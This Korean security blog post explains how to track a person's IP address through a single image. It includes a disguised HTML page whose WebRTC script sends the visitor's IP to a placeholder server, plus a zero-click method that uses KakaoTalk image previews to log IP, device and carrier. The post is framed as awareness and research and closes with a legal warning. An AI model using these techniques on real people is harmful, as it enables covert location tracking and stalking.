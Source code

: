```yaml
---
title: "사진 한 장으로 아이피 추적하기4 -결론과 총정리"
categories: [security]
tags:
  - 잡다한 연구
---
```


# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### ✅ 기본 절차
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. HTML 파일을 이미지처럼 위장

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading Image...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://yourserver.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Image Loading...">
</body>
</html>
```

- 상대방이 이 페이지를 열면, WebRTC가 실행되고 `https://yourserver.com/log_ip`로 IP 정보가 전송된다.
- VPN이 아니면 공용 IP 주소가 정확하게 잡힌다.

> ⚠️ 단점: 링크를 열어야 하며, 브라우저에서 실행돼야 한다. 모바일에선 제한될 수 있다.

---

## ✅ 3. 실전 성공 사례: 카카오톡 '사진 미리보기'로 IP 추적

우리는 WebRTC보다 현실적인 방법으로, **카카오톡의 외부 이미지 미리보기 기능**을 활용해 상대방의 IP 추적에 성공했다.

### 🎯 방식 요약
- 외부 서버에 이미지를 업로드
- 해당 이미지의 URL을 카카오톡으로 전송
- 카카오톡은 상대방 단말기에서 이미지를 불러오며 미리보기 생성
- 이 과정에서 서버에 요청이 찍히고, IP 수집 가능

### 💡 핵심 포인트
- **상대방이 클릭하지 않아도**, 단순히 대화창을 열기만 해도 IP가 수집됨
- 미리보기 이미지를 외부 서버에서 불러오기 때문에 발생하는 현상

---

## 📄 실제 서버 로그 예시

```log
[접속] 2025-04-02 13:11:58
IP: 121.162.88.214
User-Agent: Mozilla/5.0 (Linux; Android 12; SM-G991N)
Referrer: KakaoTalk
Device: Samsung Galaxy S21
```

이 정보를 통해, 우리는 다음과 같은 내용을 추출할 수 있었다:
- 접속 지역 (대략적)
- 통신사 (KT, SKT 등)
- 기기 모델명
- 브라우저 및 운영체제

---

## 🌍 4. IP 분석에 사용된 도구들

| 도구 | 기능 |
|------|------|
| [ipinfo.io](https://ipinfo.io) | IP 위치, ISP, 도시, 위도/경도 정보 제공 |
| [db-ip.com](https://db-ip.com) | 좀 더 정확한 위치 및 기업/학교 정보 |
| [ip-api.com](https://ip-api.com) | JSON 형태로 제공, API 연동 쉬움 |
| [whois.domaintools.com](https://whois.domaintools.com) | 통신사 및 네트워크 소유자 확인 |

### 📌 예시 결과
```
IP: 121.162.88.214
도시: 인천광역시
통신사: SK브로드밴드
ASN: AS9318
```

---

## ⚠️ 주의사항 및 윤리적 고려

- 본 기술은 **공격용이 아니라 실험, 연구, 보안 교육** 목적으로 작성되었습니다.
- 카카오톡이나 WebRTC의 취약점을 악용할 경우 **정보통신망법, 개인정보보호법 등에 따라 형사처벌** 받을 수 있습니다.
- 실제 적용 시 반드시 **법적 절차**와 **윤리적 판단**을 기반으로 해야 합니다.

---

## 🧾 결론

| 방식 | 클릭 필요 여부 | 성공률 | 비고 |
|------|----------------|---------|------|
| WebRTC 링크 유도 | ✅ 필요 | 중간 | 브라우저 열람 필요 |
| 카카오톡 이미지 미리보기 | ❌ 불필요 | 매우 높음 | 실제 실험에서 성공 |

📌 **우리의 결론은?**  
"카톡으로 온 아무 이미지도 쉽게 열지 말자."  
단 한 장의 짤방, 단 한 장의 사진이 당신의 위치를 말해줄 수 있다.

---

### 💡 관련 도구 및 링크

- [Grabify IP Logger](https://grabify.link)
- [iplogger.org](https://iplogger.org)
- [ipinfo.io](https://ipinfo.io)
- [db-ip.com](https://db-ip.com)

---

> 작성자 주: 이 글은 실제 실험을 바탕으로 작성되었으며, 보안 인식 제고와 기술적 학습을 목적으로 합니다.

